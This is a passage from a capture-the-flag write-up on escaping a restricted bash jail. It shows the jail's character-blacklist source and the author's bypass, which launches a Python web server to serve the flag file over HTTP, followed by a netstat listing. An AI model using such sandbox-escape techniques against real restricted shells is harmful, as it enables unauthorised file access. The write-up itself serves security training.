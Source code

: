 ```.shell
        if [[ $1 == *[bdksc'/''<''>''&''$']* ]]
        then 
                return 0
        fi

        return 1
}

while :
do
        echo "Your input:"
        read input
        if check_space "$input" 
        then
                echo -e '\033[0;31mRestricted characters has been used\033[0m'
        else
                output=`$input < /dev/null` &>/dev/null
                echo "Command executed"
        fi
done 

-----------------------------
Your input:
```

Since a lot of characters are not allowed, stdout/stderr redirection is not working anymore. And regarding `< /dev/null`: This is mostly used to [detach a process from a tty](http://stackoverflow.com/questions/19955260/what-is-dev-null-in-bash). That means we are allowed to launch some daemons. After some try & failure I thought of starting some web server and then "downloading" the flag file using a GET request. At that point I had 2 problems:

* start a server
* **somehow** GET the flag.txt file

Starting a web server was easy:

```
Your input:
python -m SimpleHTTPServer
``` 

Now I had to download the file using `http://127.0.0.1:8000`. Then I've realized that for **level1** I had a `bash` I could use to download the file:

```
level1@lxc17-bash-jail:~$ netstat -tan 1>&0
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:8000            0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0    316 10.0.3.26:22            195.178.101.66:35930    ESTABLISHED
tcp        0      0 10.0.3.26:22            195.178.101.66:13279    ESTABLISHED
tcp6       0      0 :::22                   :::*                    LISTEN     
```
